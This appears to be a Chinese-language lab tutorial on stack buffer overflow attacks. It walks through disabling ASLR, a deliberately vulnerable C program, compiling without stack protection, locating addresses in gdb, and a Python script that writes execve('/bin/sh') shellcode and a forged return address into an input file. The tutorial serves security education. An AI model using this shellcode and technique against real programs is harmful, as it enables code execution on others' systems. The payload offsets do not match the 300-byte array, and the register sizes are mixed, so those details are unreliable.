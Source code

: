 # 溢出攻击环境准备

## 关闭地址空间随机化

地址空间随机化（address space layout randomization，ASLR）是针对缓冲区溢出攻击的防御措施之一。目的
是让攻击者难以猜测到所注入的恶意代码在内存中的具体位置。    
可以使用以下指令关闭这个机制：  
```bash
sudo sysctl -w kernel.randomize_va_space=0
```

## 攻击环境准备
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int foo(char *str)
{
    char buffer[100];
    strcpy(buffer, str);
    return 1;
}

int main(int argc, char **argv)
{
    char str[400];
    FILE *badfile;
    
    badfile = fopen("badfile", "r");
    fread(str, sizeof(char), 300, badfile);
    foo(str);
    
    printf("Returned Properly\n");
    return 1;
}
```
![复现缓冲区溢出](../img/overflow-envperpare.png)

!!! gcc编译指令

    -z execstack 默认情况下，栈不可执行，这个参数设置为可执行栈  
    -fno-stack-protector 关闭StackGuard保护机制，这个机制用来检测缓冲区溢出  
    
## 验证栈的起始地址是固定的

通过上述实验，发生了缓冲区溢出，现在的问题是如何找到注入代码的内存地址。可以利用两个特点来
猜测恶意代码的具体位置：  
1. 多数操作系统把栈（每个进程有一个栈）放在固定的起始地址  
2. 多数程序的栈不深  

```c
#include <stdio.h>

int main()
{
    int x=3;
    printf("address is %p\n", &x);
    return 1;
}
```
![栈起始地址固定](../img/overflow-sameaddr.png)

!!! warning

    书中printf(":: a1's address is 0x%x\n", (unsigned int) &a1);这种方式打印
    会报cast from pointer to integer of different siz错误

## NOP指令可以提高猜测成功概率

![NOP提高概率](../img/overflow-nop.png)

NOP指令什么都不做，告诉CPU往前走，猜中任意NOP指令可以继续往前走

## 通过调试程序找到地址

可以通过调试手段寻找栈帧的地址，然后通过栈帧地址推导出注入代码的位置

!!! gcc指令

    -g选项把调试信息添加到二进制文件中

安装gdb调试程序
```bash
sudo apt install gdb -y
```

![gdb调试1](../img/overflow-gdb1.png)
![gdb调试2](../img/overflow-gdb2.png)

  从结果可知，帧指针0xffffd538，返回地址保存在0xffffd538 + 4，第一个NOP指令在0xffffd538 + 8，
因此可以将0xffffd538 + 8作为恶意代码的入口地址，把它写入返回地址字段中。  
  返回地址字段在输入数据中又处于哪个位置？由于输入复制到buffer中，为了让输入中的返回地址字段准确地覆盖栈中的返回
地址区域，需要知道栈中buffer和返回地址区域之间的距离，这个距离就是返回地址字段在输入数据中的相对位置。  
  图中得知了buffer的起始地址，ebp到buffer的起始处的距离为556，由于返回地址区域在rbp指向位置上面的4字节处，
因此返回地址区域到buffer起始处的距离就是560。

!!! gdb调试命令

    b foo在foo函数处设置一个断点  
    run 运行到断点处  
    p $rbp 打印帧指针，32位程序用p $ebp  
    p/d 表示用十进制打印  

!!! 64位系统和32位系统区别

    占用字节：32位，返回地址和帧指针各占4个字节，64位则占8个字节  
    帧指针寄存器： 32位，叫ebp，64位叫rbp

!!! 堆栈中的寄存器

    EIP/RIP 存储的是CPU下次要执行的指令地址  
    EBP/RBP 存储的是栈底指针  
    ESP/RSP 存储的是栈顶指针  

## 构造输入文件

```python
#!/usr/bin/python3
import sys


shellcode = (
    "\x31\xc0"
    "\x50"
    "\x68""//sh"
    "\x68""/bin"
    "\x89\xe3"
    "\x50"
    "\x53"
    "\x89\xe1"
    "\x99"
    "\xb0\x0b"
    "\xcd\x80"
).encode('latin-1')
content = bytearray(0x90 for i in range(300))
start = 300 - len(shellcode)
content[start:] = shellcode

ret = 0xffffd538 + 100
content[560:564] = (ret).to_bytes(4, byteorder='little')
file = open("badfile", "wb")
file.write(content)
file.close()
```